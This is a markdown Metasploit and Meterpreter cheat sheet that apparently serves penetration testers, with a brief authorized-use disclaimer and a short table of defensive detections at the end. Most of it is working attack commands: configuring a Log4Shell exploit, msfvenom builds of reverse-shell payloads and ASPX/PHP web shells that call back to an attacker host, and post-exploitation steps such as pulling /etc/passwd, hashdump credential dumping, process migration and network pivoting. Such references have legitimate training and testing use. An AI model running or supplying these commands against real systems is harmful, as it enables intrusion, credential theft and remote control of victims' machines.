

# Metasploit Framework & Meterpreter Cheat Sheet

A comprehensive reference guide for `msfconsole`, payload generation with `msfvenom`, Meterpreter post-exploitation commands, and network pivoting.

> [!NOTE]
> Intended solely for authorized penetration testing, Red Teaming exercises, and laboratory experimentation.

---

## Metasploit Workflow Architecture



---

## 1. Essential `msfconsole` Commands

```text
# Search for modules by CVE or service name
search cve:2021-44228 type:exploit
search platform:windows type:exploit smb

# Select and configure module
use exploit/multi/http/log4shell_header_injection
show options
set RHOSTS 192.168.1.50
set RPORT 8080
set LHOST 192.168.1.10
set LPORT 4444

# Launch exploit
exploit -j  # Run in background as job
sessions -l # List active sessions
sessions -i 1 # Interact with session ID 1
```

---

## 2. Payload Generation with `msfvenom`

### Standalone Executables & Shellcode
```bash
# Linux ELF Reverse TCP Payload
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf -o payload.elf

# Windows Executable Reverse TCP Payload
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o payload.exe

# PHP Reverse Shell Payload
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shell.php

# ASPX Web Shell Payload (IIS)
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f aspx -o shell.aspx
```

---

## 3. Core Meterpreter Commands

Once a Meterpreter session is established, use these commands to interact with the remote operating system.

### System & User Discovery
```text
getuid          # Display current session user privileges
sysinfo         # Display OS version, architecture, and machine name
getprivs        # Attempt to list current user privileges
ps              # List all running target processes
migrate <PID>   # Migrate Meterpreter session into another process
```

### File System & Credentials
```text
pwd / ls / cd   # File system navigation
download /etc/passwd /tmp/passwd  # Exfiltrate remote file to local host
upload /tmp/tool.exe C:\\Temp\\   # Push local file to remote host
hashdump        # Dump local SAM database hashes (Windows admin required)
```

---

## 4. Network Pivoting & Port Forwarding

Pivoting allows an attacker to route network traffic through a compromised session into internal networks.

```text
# Add a subnet route through Session 1
meterpreter > run autoroute -s 10.10.10.0/24

# Set up local port forwarding (Forward local port 8080 to internal IP port 80)
meterpreter > portfwd add -l 8080 -p 80 -r 10.10.10.5

# Start SOCKS Proxy Server inside Metasploit
use auxiliary/server/socks_proxy
set SRVPORT 1080
run
```

---

## Defensive Countermeasures & Detection

| Component | Security Control |
| :--- | :--- |
| **Payload Executables** | Endpoint Detection & Response (EDR) behavioral monitoring & AMSI Integration |
| **Network Traffic** | Intrusion Detection Systems (IDS/IPS) watching for default Meterpreter SSL certificates |
| **Process Migration** | Audit process creation event logs (Sysmon Event ID 1 & Event ID 8 for CreateRemoteThread) |
